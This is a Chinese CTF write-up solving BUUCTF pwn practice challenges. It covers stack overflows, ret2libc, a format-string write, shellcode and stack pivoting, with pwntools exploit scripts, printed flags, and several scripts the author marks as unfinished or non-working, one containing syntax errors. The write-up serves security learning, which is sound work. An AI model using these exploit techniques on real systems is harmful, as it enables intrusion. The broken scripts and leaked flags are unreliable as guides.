

# BUUCTF

## rip


危险函数：


可以看到很明显的 `"/bin/sh"` ,然后看ida下面的地址 `0x0040118A`


然后再看main函数里面的gets，获取用户输入参数的s，已知s为char型，并且为15位，

所以构造思路应该是15位装满，再加跳到返回函数中，恰好为fun函数入口


```python
from pwn import *

p = remote('node3.buuoj.cn', 28957)

#payload = 'a' * (0xf + 0x8) + p64(0x401198) + p64(0x401186) 也可以，是网上wp的修改
payload = b'a' * 15 + p64(0x401186)

p.sendline(payload)

p.interactive()

```


但是后续还是建议直接用偏移量算入口指令，而不是入口函数来算


## warmup_csaw_2016


可以看到我们输入的地方就是v5，然后v5有64位char型，双击进入stack


看到偏移8位就可以到返回函数

然后再看到我们需要注意的地方cat flag.txt


指令入口为 ：  `0x00400611`

至此，可以写payload如下：

```python
from pwn import *

p = remote('node5.buuoj.cn', 28758)

payload = b'a' * (64+8) + p64(0x00400611)

p.sendline(payload)

p.interactive()
```


## ciscn_2019_n_1


还是一样思考

找危险函数在哪：


本题没有直接的危险函数可以接触了，而是通过v2的值判断来进入，但是我们并不能直接修改v2的值，而是修改v1的值，所以应该能猜测，v1溢出，然后将v2的值改为11.28125


双击点v1的值，顺带v2的也出来了


所以可以看到v1是0x30，v2是0x04

所以填满v1再加上偏移量11.28125即可，只不过11.28125需要转换为十六进制，仔细在View-A里面找，也是直接有的：


故最终的exp：

```python
from pwn import *

p = remote('node5.buuoj.cn', 26100)

payload = b'a' * (0x30 - 0x04) + p64(0x41348000)

p.sendline(payload)

p.interactive()
```


## pwn1_sctf_2016

拉进die查看，发现是32位的，直接ida32启动！

查看危险函数，cat flag.txt


指令入口地址为 ： `0x08048F13`


找我们能操作的变量是啥：


可以看到fgets 就是s这个变量

但值得注意的是，下面的函数有replace，会将我们传进去的I变为you，所以计算需要注意

双击S，可以看到


然后要直接溢出到末尾：


如果是看vuln函数里面的32，就溢出到下一个变量，而我们需要溢出到返回函数里头

所以就是0x3C / 3 个 ”I“   然后会被替换成 0x3C 个 ”you“

此时来到了0x04这个地方，我们再填入4个'a'

就可以溢出了。

最终的payload为： 

```python
from pwn import *

p = remote('node5.buuoj.cn', 29315)

payload = b'I' * 20  + b'a' * 4 + p32(0x08048F13)

p.sendline(payload)

p.interactive()
```


## jarvisoj_level0


危险函数地址：


能操作的地址：


最终exp：

```python
from pwn import *

p = remote('node5.buuoj.cn', 26231)

payload = b'a' * (128+8)  + p64(0x0040059A)

p.sendline(payload)

p.interactive()
```


## [第五空间2019 决赛]PWN5

难度上升了，有两种思路解决


main函数里面可以看到对read等函数进行了限制：


这里的考点就是使用格式化输出进行溢出

这里需要前置知识点

%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置

例如：printf("0x44444444%2\$n")意思就是说在打印出0x4444这个字符后，将“0x44444444”所输入的字符数量（此处是4）写入到%2$n所指的地址中.


可以看到主要逻辑就是程序随便取一个数，然后你上传用户名字，然后密码要和程序取的随机数要一样，才能够执行系统函数


已知这个随机数存储在 `0x0804C044` 


然后我们看一下printf出来的地址在哪里？


a小写字母为61，所以输出就是61616161

那就数数嘛，一个.为分隔符

然后数到10

所以可以肯定后面就是 `%10$n`


然后密码部分就和 `dword_804C044` 

```python
from pwn import *

r=remote('node5.buuoj.cn',29211)

target=0x804c044
pay=p32(target)+b'%10$n'        

r.recvuntil(':')
r.sendline(pay)

r.recvuntil(':')
r.sendline(str(4))     #写入了四字节，因此此处应写入4

r.interactive()
```


## jarvisoj_level2


main函数找危险函数入口，可惜没有，但是找到唯一可以传进去的值就是buf


虽然read有做输入限制，但是0x100 - 0x80 还是有空间来进行溢出的


搜索字符串，可以发现一个/bin/sh


但是可以发现他不是直接执行的，猜测就是有个system函数溢出调用这个地址的数据作为命令执行

跳转system函数


可以看到两个关键的地址


还是老规矩溢出buf



最后的payload：注意一点就是顺序绝对不能变化，因为溢出是有顺序的，思路就是buf溢出到返回函数，然后调用到system函数的地址，然后执行的数据在hint里面，那个p32(0)，里面的数据可以是任意的

因为：32位的分布是这样子的，返回地址+下一次的返回地址+参数1+参数2+...这样子因为我们下一次返回地址是啥都行，我们拿到shell就跑了，所以直接为0


最终exp：

```python
from pwn import *

r = remote('node5.buuoj.cn',29222)

hint = 0x804A024
system = 0x8048320

payload = b'a' * (0x88 + 0x04) + p32(system) + p32(0) + p32(hint)

r.sendline(payload)

r.interactive()
```


## ciscn_2019_n_8

点开main函数：


惊讶发现var是个全局变量，没在main里面定义，双击查看

bss静态存储区，那我们不能跳了


再看main函数后面的，发现他只是一个简单的比较就可以拿到shellcode了

```
*(_QWORD *)&var[13] == 0x11LL
```

发现：
qword全称是Quad Word

2个字节就是1个Word（1个字，16位）

q就是英文quad-这个词根（意思是4）的首字母

所以它自然是word（2字节，0~2^16-1）的四倍，8字节

所以前13位要为'aaaa'，4倍


最终exp：

```python
from pwn import *

r = remote('node5.buuoj.cn',25756)

payload = b'a' * (13*4)   +  p32(0x11) + p32(0)

r.sendline(payload)

r.interactive()
```


## bjdctf_2020_babystack

同理：main函数：


可以发现这里有两个可以上传的值，一个是nbytes，用来限制保护后面传的buf，但是它可以被我们控制，所以我们应该直接传最大值，啥都不管。

然后看到buf才是我们主要用的

双击可以看到：


要溢出到返回函数那里去，大小就是0x10 + 0x08 


然后看到有个backdoor函数，看他的地址即可：


溢出到入口函数也是可以的，看你喜欢


然后最终exp为：

```python
from pwn import *

r = remote('node5.buuoj.cn',29674)

backdoor = 0x004006EA

payload = b'a' * (0x10 + 0x08)   +  p64(backdoor)

r.sendline(str(255))

r.recvuntil('?')
r.sendline(payload)
r.interactive()
```


## ciscn_2019_c_1


check一下64位开启nx保护，部分relro


程序有个没有限制的gets，所以这里应该会有栈溢出，但是没有在程序里面看到system和/bin/sh字符串的形式，后面又有一个puts，所以可以尝试一下puts当前puts的地址，然后就是标准的ret2libc


看一下rdi和ret的地址


```
rdi_addr = 0x400c83
ret_addr = 0x4006b9
```


```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "node5.buuoj.cn"
port = 28831

p = remote(ip,port)
elf = ELF('./pwn')

rdix_addr = 0x400c83
retx_addr = 0x4006b9 
encrypt_addr = 0x04009A0

offset = b'\0' + b'a'* (0x50 + 0x08-1)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
# encrypt_addr = elf.symbols['encrypt']

payload = offset
payload += p64(rdix_addr) + p64(puts_got)
payload += p64(puts_plt) 
payload += p64(encrypt_addr)

p.recvuntil(b'Input your choice!\n')
p.sendline(str(1))

p.recvuntil(b'Input your Plaintext to be encrypted\n')
p.sendline(payload)
p.recvline()
p.recvline()

puts_addr = u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\0'))

libc = LibcSearcher("puts",puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

payload_exp = offset

payload_exp += p64(retx_addr) + p64(rdix_addr)

payload_exp += p64(binsh_addr) + p64(system_addr)

p.recvuntil(b'Input your Plaintext to be encrypted')
p.sendline(payload_exp)

p.interactive()
```


拿到flag：

```
flag{3f6ddea2-b817-4c30-87a5-932479cd6e00}
```


## get_started_3dsctf_2016(未完成)


check一下 32位，partial relro，nx开启

ida打开好像似曾相识

main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[56]; // [esp+4h] [ebp-38h] BYREF

  printf("Qual a palavrinha magica? ", v4[0]);
  gets(v4);
  return 0;
}
```


flag函数在这里：

```c
void __cdecl get_flag(int a1, int a2)
{
  int v2; // esi
  unsigned __int8 v3; // al
  int v4; // ecx
  unsigned __int8 v5; // al

  if ( a1 == 814536271 && a2 == 425138641 )
  {
    v2 = fopen("flag.txt", "rt");
    v3 = getc(v2);
    if ( v3 != 255 )
    {
      v4 = (char)v3;
      do
      {
        putchar(v4);
        v5 = getc(v2);
        v4 = (char)v5;
      }
      while ( v5 != 255 );
    }
    fclose(v2);
  }
}
```


要传入形参，找pop2ret1的，但这里是32位，所以直接找rax


测出偏移量为：


## ciscn_2019_n_5

check一下：

```
helloctfos@Hello-CTF:~/pwnenv$ checksec pwn
[*] '/home/helloctfos/pwnenv/pwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```


一个比较简单的栈溢出：

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char text[30]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  puts("tell me your name");
  read(0, name, 0x64uLL);
  puts("wow~ nice name!");
  puts("What do you want to say to me?");
  gets(text);
  return 0;
}
```


read 100,name在.bss区，gets没有作出限制，所以可以轻松的溢出，也没有开始保护，有一个RWX的段


直接写就是了


### shellcode法打不通

不知道为什么，检查nx没有开

然后看vmmap


本地打通

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
from struct import pack
context(arch='amd64',os='linux',log_level='debug')

ip = 'node5.buuoj.cn'
port = 25854

r=remote(ip,port)

shellcode=asm(shellcraft.sh())

r.recvuntil('tell me your name')

r.sendline(shellcode)

use_addr = 0x601080

payload=flat(['a'*0x28,use_addr])

r.recvuntil('What do you want to say to me?')

r.sendline(payload)

r.interactive()
```


### libcSearcher

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
 
#p = process('./pwn')
p = remote('node5.buuoj.cn',25854)
elf = ELF('./111')
 
#gdb.attach(p, 'b *0x4006a9')
plt_addr =elf.sym['puts']
got_addr =elf.got['puts']
main_addr =0x400636
ret_addr =0x4004c9
rdi_addr =0x400713
name_addr =0x601080
 
p.sendafter(b'name\n', b'1')
 
payload =b'a'*(0x20 +8) +p64(rdi_addr) +p64(got_addr) +p64(plt_addr) +p64(main_addr)
p.sendlineafter(b'me?\n', payload)
 
puts_addr =u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
libc =LibcSearcher('puts',puts_addr)
libc_base =puts_addr -libc.dump('puts')
system =libc_base + libc.dump('system')
 
p.sendafter(b'name\n', b'/bin/sh\x00')
payload =b'a'*(0x20 +8) +p64(ret_addr) +p64(rdi_addr) +p64(name_addr) +p64(system)
 
p.sendlineafter(b'me?\n',payload)
p.interactive()
```


## jarvisoj_level2_x64


checksec 一下 file一下

```
helloctfos@Hello-CTF:~/pwnenv$ checksec level2_x64
[*] '/home/helloctfos/pwnenv/level2_x64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
helloctfos@Hello-CTF:~/pwnenv$ file level2_x64
level2_x64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=17f0f0026ee70f2e0c8c600edcbe06862a9845bd, not stripped
```


ida里面啥都有了

```
binsh_addr = 0x600A90
system_plt = 0x4004C0
```


但需要注意题目说的是x64，所以要使用rdi进行传参，栈平衡

```
pop_rdi_ret = 0x4006b3 
```


`buf` ,ida里面时128


```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

ip = 'node5.buuoj.cn'
port = 27984

# io = process("./level2_x64")

io = remote(ip,port)
binsh_addr = 0x600A90
system_plt = 0x4004C0
pop_rdi_ret = 0x4006b3

payload = b'a' * 0x88
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_plt)

io.sendline(payload)
io.interactive()
```


本地打不通，但是远程打通了，本地应该是缺少什么文件


## [OGeek2019]babyrop（libc打不通）


```
helloctfos@Hello-CTF:~/pwnenv$ checksec pwn
[*] '/home/helloctfos/pwnenv/pwn'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
helloctfos@Hello-CTF:~/pwnenv$ file pwn
pwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6503b3ef34c8d55c8d3e861fb4de2110d0f9f8e2, stripped
```


ida查看


核心部分：

s和v1比较，也就是a1和v1比较，\x00截断绕过strncmp

```
int __cdecl sub_804871F(int a1)
{
  size_t v1; // eax
  char s[32]; // [esp+Ch] [ebp-4Ch] BYREF
  char buf[32]; // [esp+2Ch] [ebp-2Ch] BYREF
  ssize_t v5; // [esp+4Ch] [ebp-Ch]

  memset(s, 0, sizeof(s));
  memset(buf, 0, sizeof(buf));
  sprintf(s, "%ld", a1);
  v5 = read(0, buf, 0x20u);
  buf[v5 - 1] = 0;
  v1 = strlen(buf);
  if ( strncmp(buf, s, v1) )
    exit(0);
  write(1, "Correct\n", 8u);
  return (unsigned __int8)buf[7];
}
```


看样子就是要构造buf[7]的值，buf[7]传进来就是a1了

```
ssize_t __cdecl sub_80487D0(char a1)
{
  char buf[231]; // [esp+11h] [ebp-E7h] BYREF

  if ( a1 == 127 )
    return read(0, buf, 200u);
  else
    return read(0, buf, a1);
}
```


然后后面就是ret2libc


打不通

```python
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')
# io = process('./pwn')

ip='node5.buuoj.cn'
port = 26505

io = remote(ip,port)
elf = ELF('./pwn')

puts_plt = elf.plt['puts'] 
puts_got = elf.got['puts']

main_addr = 0x08048825

payload1 = b'\x00' + b'a'*6 + b'\xff'

io.sendline(payload1)

payload2 = b'a'*(0xe7+0x04) + p32(puts_plt) + p32(main_addr) + p32(puts_got)

io.sendafter(b'Correct\n',payload2)

puts_addr = u32(io.recv(4))

libc = LibcSearcher('puts',puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

io.sendline(payload1)

payload3 = b'a'*(0xe7+0x04) + p32(system_addr) + p32(0) + p32(binsh_addr)

io.sendafter(b'Correct\n',payload3)

io.interactive()
```


## jarvisoj_level3（libc版本）打不通


```
helloctfos@Hello-CTF:~/pwnenv$ checksec level3 && file level3
[*] '/home/helloctfos/pwnenv/level3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
level3: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=44a438e03b4d2c1abead90f748a4b5500b7a04c7, not stripped
```


经典的ret2libc


```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 256u);
}
```


直接写exp就可以了

先write got地址

```python
from pwn import *

from LibcSearcher import *

context(arch="i386",os='linux',log_level='debug')

io = remote('node5.buuoj.cn',25059)

# io = process("./level3")

elf = ELF("./level3")

write_plt=elf.plt['write']

write_got=elf.got['write']

main_addr=elf.symbols['main']

payload= b'a'*140+p32(write_plt)+p32(main_addr)+p32(0x1)+p32(write_got)+p32(0x4)

#  write(1,address,len)

io.sendafter(b"Input:\n",payload)

write_addr = u32(io.recv(4))

libc=LibcSearcher('write',write_addr)

libcbase=write_addr-libc.dump("write")

system_addr=libcbase+libc.dump("system")

binsh_addr=libcbase+libc.dump("str_bin_sh")

payload_exp= b'a'*140 + p32(system_addr) + p32(0) + p32(binsh_addr)

io.sendline(payload_exp)

io.interactive()
```


## others_shellcode

nc连上，直接cat flag就有

```
flag{1a434df0-dc6d-4af5-a673-5ed91bf63169}
```


## jarvisoj_tell_me_something

64位nx


read有个栈溢出，136

```
pwndbg> cyclic -l 0x6161616161616172
Finding cyclic pattern of 8 bytes: b'raaaaaaa' (hex: 0x7261616161616161)
Found at offset 136
```


然后有一个goodgame

```
int good_game()
{
  FILE *v0; // rbx
  int result; // eax
  char buf[9]; // [rsp+Fh] [rbp-9h] BYREF

  v0 = fopen("flag.txt", "r");
  while ( 1 )
  {
    result = fgetc(v0);
    buf[0] = result;
    if ( (_BYTE)result == 0xFF )
      break;
    write(1, buf, 1uLL);
  }
  return result;
}
```

```
good_game_addr = 0x400620
```


直接写exp：

```python
from pwn import *

io = remote('node5.buuoj.cn',26803)

# io = process("./guestbook")

good_game_addr = 0x400620

payload = b'a'*136 + p64(good_game_addr)

io.recvuntil(b'Input your message:\n')

io.sendline(payload)

io.interactive()
```


连上就有;

```
flag{572bd1b5-6b92-4efa-962a-620e02e3302f}
```


## ciscn_2019_ne_5

32位nx


看main函数吓死人，还以为是堆题


有一个比较

```
strcmp(s1, "administrator")
```


Getflag函数里面有一个strcpy栈溢出

函数里面没有/bin/sh，但是可以查找后缀为sh的，也是可以利用

```
LOAD:080482E6 aFflush         db 'fflush',0   
```

有system

src参数通用


exp：

不要用`p32(0)` 因为有`strcpy`函数

```python
from pwn import *

# io = process("./ciscn_2019_ne_5")

io = remote('node5.buuoj.cn',28698)

binsh_addr = 0x80482E6 + 4

system_addr=0x80484D0

io.recvuntil(b"Please input admin password:")

io.sendline(b'administrator')

io.recvuntil(b"Input your operation:")

io.sendline(b'1')

payload = b'a'*(0x48 + 0x04) + p32(system_addr) + b'a'*4 + p32(binsh_addr)

io.recvuntil(b"Please input new log info:")

io.sendline(payload)

io.recvuntil(b"Input your operation:")

io.sendline(b'4')

io.interactive()
```


拿到flag

```
flag{79a5a4fa-ab09-42f1-baef-54ba7e312d57}
```


## ciscn_2019_es_2(未完成)

[[原创\]ciscn_2019_es_2栈转移-Pwn-看雪-安全社区|安全招聘|kanxue.com](https://bbs.kanxue.com/thread-269163.htm)

32位nx，partial


核心：

```
int vul()
{
  char s[40]; // [esp+0h] [ebp-28h] BYREF

  memset(s, 0, 0x20u);
  read(0, s, 0x30u);
  printf("Hello, %s\n", s);
  read(0, s, 0x30u);
  return printf("Hello, %s\n", s);
}
```


有个system直接echo flag，却是假的

但是有system

```
system_plt = 0x08048400
```


有溢出，但不多


exp：

```python
from pwn import *

context(arch='i386',os='linux',log_level='debug')

io = process('./ciscn')

system_addr = 0x08048400

leave_ret = 0x080484b8

payload ='a'*0x20+'bbbbbbbb'

io.send(payload)

io.recvuntil('bbbbbbbb')

leak_addr = u32(io.recv(4))

payload2 =(b'aaaa'+p32(system_addr)+b'aaaa'+p32(leak_addr-0x28)+b'/bin/sh\x00').ljust(0x28,'a')

payload2+=p32(leak_addr-0x38)+p32(leave_ret)

io.sendline(payload2)

io.interactive()
```


```python
from pwn import *

io=process('./ciscn_2019_es_2')

payload=b'a'4+b'b'0x20+b'c'*4

io.recvuntil('name?\n')

io.send(payload)

io.recvuntil('cccc')

addr=u32(io.recv(4))

systeam_addr=0x08048400

leave_ret_addr=0x080485FD

payload2=b'a'*4

payload2+=p32(systeam_addr)
payload2+=p32(0xdeadbeef)
payload2+=p32(addr-0x38+0x10)+b"/bin/sh"
payload2=payload2.ljust(0x28,b'\x00')
payload2+=p32(addr-0x38)
payload2+=p32(leave_ret_addr)
io.send(payload2)
io.interactive()
```

